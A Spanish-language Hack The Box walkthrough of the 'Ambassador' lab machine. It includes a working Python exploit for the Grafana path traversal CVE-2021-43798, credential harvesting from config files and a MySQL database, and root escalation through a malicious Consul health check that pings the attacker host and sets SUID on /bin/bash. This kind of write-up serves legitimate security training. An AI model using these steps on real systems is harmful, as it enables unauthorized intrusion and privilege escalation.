---

# Descripcion

Ambassador es una máquina Linux de dificultad media en Hack The Box. El acceso inicial se obtiene explotando un Path Traversal en Grafana (CVE-2021-43798), lo que permite extraer las credenciales de una base de datos MySQL expuesta y recuperar la contraseña SSH del usuario developer. Para la escalada de privilegios, se recupera un token de HashiCorp Consul del historial de un repositorio Git local y se abusa de permisos de escritura sobre su directorio de configuración para inyectar un Health Check que ejecuta comandos como root.

---

# Enumeracion

## Nmap

> Realizamos un escaneo inicial sobre todo el rango de puertos (`-p-`) mediante paquetes SYN (`-sS`) para identificar aquellos que se encuentran abiertos en la máquina objetivo:

```bash
nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.228.56
```



> Una vez identificados los puertos abiertos (`22`, `80`, `3000` y `3306`), lanzamos los scripts básicos de reconocimiento de Nmap (`-sC`) junto con la detección de versiones (`-sV`):

```bash
nmap -p22,80,3000,3306 -sC -sV 10.129.228.56
```



> Analizamos las tecnologías web que corren tanto en el puerto `80` como en el puerto `3000` (tras haber añadido `ambassador.htb` a nuestro archivo `/etc/hosts`):

```bash
whatweb [http://ambassador.htb](http://ambassador.htb)
whatweb [http://ambassador.htb:3000](http://ambassador.htb:3000)
```



---

## Web

- **Web (Puerto 80)**



> Si navegamos por esta aplicación web, encontramos una publicación interesante:



> Esta entrada nos revela la existencia de un usuario válido llamado `developer` para conectarnos por `ssh`, aunque por el momento no disponemos de su contraseña.

- **Web en puerto `3000` (Grafana)**




> Nos encontramos ante un panel de **Grafana** en su versión `8.2.0`. 

# Shell como developer

## LFI

> Investigando acerca de esta versión específica, descubrimos que es vulnerable al **CVE-2021-43798**. Se trata de una vulnerabilidad de tipo **Path Traversal (Directory Traversal)** no autenticada a través de los directorios de plugins instalados por defecto, lo que permite la lectura arbitraria de archivos del sistema. Vamos a crear un pequeño script en Python para automatizar la explotación de esta vulnerabilidad:

```python
import urllib.request
import sys

plugins = ['cloudwatch', 'dashboard', 'elasticsearch', 'grafana', 'grafana-azure-monitor-datasource',
'graphite', 'influxdb', 'jaeger', 'loki', 'mixed', 'mssql', 'mysql', 'opentsdb', 'postgres',
'prometheus', 'tempo', 'testdata', 'zipkin', 'alertGroups', 'alertlist', 'annolist', 'barchart',
'bargauge', 'canvas', 'dashlist', 'debug', 'gauge', 'geomap', 'gettingstarted', 'graph', 'heatmap',
'histogram', 'live', 'logs', 'news', 'nodeGraph', 'piechart', 'pluginlist', 'stat',
'state-timeline', 'status-history', 'table', 'table-old', 'text', 'timeseries', 'welcome',
'xychart']

def request(url):
    try:
        req = urllib.request.urlopen(url)
        print(req.read().decode())
        if req.getcode() == 200:
            return True
    except Exception as e:
        print(f"Error en la peticion: {e}")
        return False

def main():
    if len(sys.argv) == 3:
        url_p = sys.argv[1]
        file = sys.argv[2]
        for plugin in plugins:
            url = f"{url_p}/public/plugins/{plugin}/../../../../../../../../../{file}"
            req = request(url)
            if req:
                break
    else:
        print("usage: python poc.py [http://example.com](http://example.com) <FILE>")            
if __name__ == '__main__':
    main()
```

> Vamos a solicitar el archivo `/etc/passwd` para validar la vulnerabilidad y enumerar los usuarios del sistema:

```bash
python3 test.py [http://ambassador.htb:3000](http://ambassador.htb:3000) /etc/passwd
```



> Bien, lo que nos interesa aquí es confirmar la presencia del usuario `developer`. Como vimos durante el escaneo inicial con Nmap, el servicio de base de datos (MySQL en el puerto `3306`) está accesible desde el exterior. Por lo tanto, nuestro siguiente objetivo será enumerar los archivos internos de **Grafana** en busca de credenciales de la base de datos. Comenzamos inspeccionando el archivo principal de configuración `/etc/grafana/grafana.ini`:




> Dentro del archivo de configuración encontramos unas posibles credenciales en texto claro:

```text
user: admin
pass: messageInABottle685427
```

> Tras probarlas, comprobamos que esta contraseña solo es válida para acceder al panel web de `grafana`. Una vez dentro del panel, investigando la interfaz encontramos la configuración de los *Data Sources* (fuentes de datos):



> Parece que estos datos de conexión se almacenan en algún archivo de aprovisionamiento dentro del servidor. Consultando la documentación oficial de Grafana, descubrimos que las fuentes de datos se ubican en la ruta `/etc/grafana/provisioning/datasources/`. Aprovechando nuevamente el *Path Traversal*, leemos el archivo `/etc/grafana/provisioning/datasources/mysql.yaml`:



> ¡Éxito! Obtenemos el usuario y la contraseña de la `base de datos` MySQL. Procedemos a autenticarnos de forma remota:

```text
user: grafana
pass: dontStandSoCloseToMe63221!
```

## MYSQL

```bash
mysql -u grafana -p -h 10.129.228.56 --skip-ssl
```



- **Mostramos las bases de datos (`BBDD`) disponibles**
```sql
show databases;
```



- **Seleccionamos la base de datos `grafana`**
```sql
use grafana;
```



> No se muestra contenido relevante dentro de la base de datos `grafana`, así que pasamos a enumerar la base de datos `whackywidget` y el contenido de su tabla `users`:

```sql
use whackywidget;
show tables;
select * from users;
```



> La consulta nos devuelve la contraseña del usuario `developer` codificada en `base64`. Tras decodificarla, obtenemos la credencial en texto plano y probamos a conectarnos por SSH con el usuario `developer`:

```text
user: developer
pass: anEnglishManInNewYork027468
```



---

# Shell como root

## Enumeracion
> Conseguimos acceso al sistema a través de SSH. Realizamos una enumeración básica de privilegios (`sudoers`, binarios `SUID`, `Capabilities`) sin encontrar vectores destacables. Procedemos entonces a listar los procesos activos en el sistema:

```bash
ps faux
```



> Observamos que el usuario `root` está ejecutando un servicio llamado `consul`.

## Consul

> [!NOTE]
> **Consul** es una herramienta de código abierto desarrollada por **HashiCorp** que funciona como una plataforma de red de servicios para sistemas distribuidos. En el contexto de **Ubuntu**, se utiliza principalmente para facilitar el **descubrimiento de servicios**, la **gestión de configuración** y la creación de una **malla de servicios** (*service mesh*) entre microservicios.

> Revisando el directorio `/opt`, encontramos dos carpetas: una perteneciente a `consul` y otra llamada `my-app`:



> Si accedemos a `/opt/my-app` y listamos todos los archivos (incluyendo los ocultos), descubrimos que se trata de un repositorio Git al contener un directorio `.git`:

```bash
ls -la
```



- **Comprobamos el estado del repositorio (`status`)**
```bash
git status
```



- **Revisamos el historial de `commits` realizados**
```bash
git log
```



- **Inspeccionamos los cambios introducidos en el último `commit`**
```bash
git show 33a53ef9a207976d5ceceddc41a199558843bf3c
```



> Dentro del historial del repositorio encontramos expuesto un token de Consul (`CONSUL_HTTP_TOKEN`):

```text
bb03b43b-1d81-d62b-24b5-39540ee469b5
```

> A continuación, enumeramos los archivos de configuración de `consul`. Investigando en la documentación oficial, vemos que sus archivos de configuración se alojan por defecto en `/etc/consul.d`. Nos dirigimos a este directorio y listamos sus permisos:

```bash
ls -la
```



> Podemos observar que el grupo `developer` cuenta con permisos de escritura y ejecución (`wx`) sobre el directorio `config.d`, aunque no tengamos permisos de lectura para listar su contenido. En esta ruta es donde Consul almacena y carga sus archivos de configuración con extensión `.hcl`.

> [!NOTE]
> Los archivos **`.hcl`** son archivos de configuración escritos en **HCL** (*HashiCorp Configuration Language*), un lenguaje creado por HashiCorp para definir configuraciones de forma clara y legible.
> A través de estos archivos también es posible definir `Health checks` (comprobaciones de estado), los cuales permiten ejecutar un comando o script de manera periódica cada cierto intervalo de tiempo.

## Consul - Health Checks

> Aprovechando el funcionamiento de los `Health Checks` y nuestros permisos de escritura, vamos a crear un archivo de configuración malicioso que ejecute un script cada 30 segundos. Inicialmente haremos que envíe una traza ICMP (`ping`) hacia nuestra máquina de atacante para verificar que tenemos ejecución remota de comandos:

```hcl
{
  "check": {
    "name": "check script",
    "args": ["/bin/bash", "/tmp/run.sh"],
    "interval": "30s"
  }
}
```

- **Creamos este archivo `.hcl` dentro de `/etc/consul.d/config.d/`**

- **Creamos el script `/tmp/run.sh` (dándole permisos de ejecución)**
```sh
ping -c 1 10.10.14.154
```

- **Ponemos `tcpdump` a la escucha de trazas ICMP en nuestra máquina**
```bash
sudo tcpdump -i tun0 icmp
```

- **Recargamos la configuración de `consul` para aplicar los cambios**
```bash
consul reload
```



> El comando nos devuelve un error de permisos (`Permission denied`), ya que la API de Consul requiere autenticación mediante un token ACL. Aquí es donde entra en juego el token que extrajimos previamente del repositorio `.git`; lo exportamos como variable de entorno del sistema:

```bash
export CONSUL_HTTP_TOKEN=bb03b43b-1d81-d62b-24b5-39540ee469b5
```

- **Recargamos nuevamente el servicio `consul`**
```bash
consul reload
```

> Esperamos unos segundos a que se ejecute el *Health Check* y realice el `ping`:



> Recibimos los paquetes ICMP en nuestro `tcpdump`, confirmando que tenemos **RCE (Ejecución Remota de Comandos)** a través de un proceso ejecutado por el usuario `root`. Ahora simplemente modificamos el contenido de `/tmp/run.sh` para asignarle permisos `SUID` al binario `/bin/bash`:

```bash
chmod +s /bin/bash
```



> Una vez que el *Health Check* vuelve a ejecutarse y aplica el bit SUID a la bash, lanzamos una consola manteniendo los privilegios del propietario (`-p`) y obtenemos acceso como `root`:

```bash
bash -p
```

